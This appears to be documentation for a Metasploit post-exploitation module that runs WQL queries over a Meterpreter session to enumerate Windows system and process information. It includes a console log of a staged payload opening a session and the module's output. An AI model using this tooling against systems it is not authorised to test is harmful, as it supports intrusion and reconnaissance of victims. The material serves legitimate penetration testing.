 ## Introduction

This module will execute a WQL query via Powershell's `Get-WmiObject`. A WQL query can be
explicity defined with the WQL and NAMESPACE options, or a hard-coded query can be used by
defining the ACTION option.

The following ACTIONs are available:

OSVERSION - Returns information about the operating system,
PROCESSINFO - Returns running processes.

## Vulnerable Application

  This should work on version of Windows with Powershell that support `Get-WmiObject`.

## Verification Steps

  1. Start `msfconsole`
  2. Get Meterpreter session
  3. `use post/windows/recon/wql_query`
  4. `run`
  5. **Verify** that operating system version info is returned
  6. `set ACTION ""`
  7. `set WQL select * from win32_operatingsystem`
  8. `run`
  9. **Verify** that more complete data comes back

## Options

  **ACTION**

  This is any of the predefined actions that are pre-baked in.

  **NAMESPACE**

  This will set the namespace to run any arbitrary WQL against.

  **WQL**

  An arbitrary WQL statement to run on the system.

## Proof of Concept

```

msf5 exploit(multi/handler) >
[*] https://192.168.170.1:8443 handling request from 192.168.170.128; (UUID: w43pepbp) Staging x86 payload (181337 bytes) ...
[*] Meterpreter session 1 opened (192.168.170.1:8443 -> 192.168.170.128:50319) at 2019-09-11 19:01:40 -0500
msf5 exploit(multi/handler) > use post/windows/recon/wql_query
msf5 post(windows/recon/wql_query) > show options

Module options (post/windows/recon/wql_query):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   ACTION     OSVERSION        no        Action query to run
   NAMESPACE                   no        Namespace to run the WQL query against
   RHOST      localhost        yes       Target address range
   SESSION                     yes       The session to run this module on.
   SMBDomain                   no        The Windows domain to use for authentication
   SMBPass                     no        The password for the specified username
   SMBUser                     no        The username to authenticate as
   TIMEOUT    10               yes       Timeout for WMI command in seconds
   WQL                         no        WQL query to run

msf5 post(windows/recon/wql_query) > set session 1
session => 1
msf5 post(windows/recon/wql_query) > run

[*] Executing WQL
[*] WQL result:

Version    BuildNumber
-------    -----------
10.0.17763 17763



[*] Post module execution completed
msf5 post(windows/recon/wql_query) > set ACTION ""
ACTION =>
msf5 post(windows/recon/wql_query) > set WQL select * from win32_operatingsystem
WQL => select * from win32_operatingsystem
msf5 post(windows/recon/wql_query) > run

[*] Executing WQL
[*] WQL result:


SystemDirectory : C:\Windows\system32
Organization    :
BuildNumber     : 17763
RegisteredUser  : chiggins
SerialNumber    : XXXXX-XXXXX-XXXXX-XXXXX
Version         : 10.0.17763

[*] Post module execution completed
```

